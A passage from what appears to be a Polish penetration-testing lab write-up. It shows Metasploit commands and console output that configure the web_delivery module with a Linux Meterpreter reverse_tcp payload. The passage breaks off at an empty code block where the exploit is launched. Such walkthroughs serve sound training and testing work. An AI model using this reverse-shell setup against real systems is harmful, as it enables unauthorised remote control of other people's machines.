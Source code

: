 </p>
</pre>
</div>

# Exploit
Użyjmy **Metasploita** do wrzucenia exploita. :) Wykorzystamy **exploit/multi/script/web_delivery**, a w nim ładunek **linux/x86/meterpreter/reverse_tcp**. Niestety ładunek **PHP** **Meterpretera** nie posiada wszystkich opcji sieciowych. Np. nie ma w nim komendy _arp_ i _ifconfig_. Jest za to _portfwd_ - komenda do przekierowywania portów, ale czasami może być to za mało.
{: .text-justify}
<div class="notice--primary" markdown="1">
Wpisujemy:
```console
use multi/script/web_delivery
set payload payload/linux/x86/meterpreter/reverse_tcp
set lhost eth0
set target Linux
show options
```
Powinniśmy otrzymać:
```console
[*] Starting persistent handler(s)...
msf6 auxiliary(scanner/discovery/arp_sweep) > use multi/script/web_delivery
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set payload payload/linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost eth0
lhost => eth0
msf6 exploit(multi/script/web_delivery) > set target Linux
target => Linux
msf6 exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                        on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   7   Linux
```
</div>
Następnie uruchamiamy exploita w tle:
```console
```